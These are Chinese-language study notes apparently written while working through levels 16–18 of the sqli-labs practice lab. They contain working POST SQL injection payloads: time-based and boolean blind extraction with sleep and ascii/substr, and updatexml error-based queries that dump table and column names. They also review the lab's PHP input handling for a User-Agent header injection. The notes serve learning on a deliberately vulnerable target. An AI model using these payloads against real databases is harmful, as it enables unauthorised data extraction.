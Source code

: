 ------

## less-16

基于POST型的布尔盲注(时间盲注) 闭合方式 ")

```mysql
uname=qwe") or if(1=2,sleep(0),sleep(2))-- -&passwd=admin&Submit=Submit                  (判断闭合方式)
```

```mysql
uname=qwe") or ascii(substr((select table_name from information_schema.tables where table_schema=database()limit 0,1),1,1))>=101 -- - &passwd=admin&Submit=Submit
```

**注意：布尔盲注在查表、字段、数据的时候不光要加上substring() 还要加上limit()控制行数 不然一直返回为假！**

------

## less-17

基于POST型的报错注入,闭合方式 password中的'           （提示框提示了[PASSWORD RESET]  应当把重点放在password的输入中）

```mysql
uname=admin&passwd=' or if(1=2,sleep(0),sleep(3)) -- -&Submit=Submit                   (判断闭合方式)
```

使用updatexml进行报错注入

```mysql
uname=admin&passwd=' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1) -- -&Submit=Submit
```

```mysql
uname=admin&passwd=' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')),1) -- -&Submit=Submit
```

回显:XPATH syntax error: '~id,email_id,id,referer,ip_addre'

**爆数据的payload暂时不做 不会~**          （涉及到双select）

------

## less-18

Head头部的**uagent**注入 新的题型 先进行源php的代码审计：  (详细聊)

```php
include("../sql-connections/sql-connect.php");    //文件包含 链接到mysql数据库
```

```php
if(!empty($value))
		{
		// truncation (see comments)
		$value = substr($value,0,20);               //只检测长度0-20的字符
		} 
		if (get_magic_quotes_gpc())                 //空格 分号 中间的空格全部用斜杠替代
			{
			$value = stripslashes($value);          //不使用斜杠替代 这句话的意思是如果php版本开了这个功能 那就给它关掉
			}
		if (!ctype_digit($value))              		//如果value的值不是纯数字 
			{
			$value = "'" . mysql_real_escape_string($value) . "'";       
			}		
else
		{
		$value = intval($value);                     //intval() 函数通过使用指定的进制 base 转换（默认是十进制）
		}
```